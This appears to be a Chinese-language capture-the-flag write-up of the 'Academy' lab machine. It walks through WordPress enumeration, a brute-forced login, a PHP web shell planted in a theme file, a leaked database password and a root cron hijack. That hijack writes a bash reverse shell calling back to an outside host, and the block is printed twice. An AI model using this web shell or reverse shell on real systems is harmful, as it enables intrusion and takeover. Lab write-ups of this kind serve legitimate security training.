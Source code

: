 # Academy

2025.03.08 https://thehackerslabs.com/academy/

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先将 academy.thl 添加到 hosts 文件中。

发现 wordpress : http://192.168.5.40/wordpress/ , wpscan 枚举到一个用户 dylan 和 一个插件 file-manager 6.5.1

简单爆破，发现用户的登陆密码: password1 进入到后台管理页面。点击左侧 Tools -> Theme File Editor -> 选择主题 twentytwentythree -> 编辑 patterns/hidden-404.php 植入 php shell：

```
<?php echo 1; system($_GET[1]);?>
```

进行验证:

```
curl -s 'http://192.168.5.40/wordpress/wp-content/themes/twentytwentythree/patterns/hidden-404.php?1=id'
1uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

可以执行，进行反弹 shell，先拿到了 wp-config.php 文件：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 't9sH76gpQ82UFeZ3GXZS' );
define( 'DB_HOST', 'localhost' );
```

枚举后只发现一个文件 /opt/backup.py 。

使用 pspy64 发现以 root 身份每分钟执行一次 /opt/backup.sh， www-data 对 /opt 目录有写权限，可以直接进行新建 backup.sh ：

```
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /opt/backup.sh
chmod +x /opt/backup.sh
```

在 kali 上监听 8888，过了 1 分钟得到了 root 反弹的 shell：

```
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /opt/backup.sh
chmod +x /opt/backup.sh

```

拿到 2 个 flag:

```
root@debian:/home/debian# cat user.txt
f3e431cd1129e9879e482fcb2cc151e8

root@debian:~# cat root.txt
39531504f0ddd4778a542fae02fe4733
```
